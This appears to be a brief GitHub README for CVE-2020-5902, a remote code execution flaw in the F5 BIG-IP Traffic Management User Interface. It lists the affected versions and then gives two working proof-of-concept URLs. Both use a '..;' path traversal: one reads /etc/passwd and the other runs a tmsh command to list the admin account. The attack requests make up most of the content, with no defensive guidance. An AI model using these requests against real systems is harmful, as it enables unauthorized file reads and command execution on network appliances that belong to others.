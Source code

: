 # CVE-2020-5902/F5 RCE&ReadFile

# Summary
In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages. 

# Proof of concept

```
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

```
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```


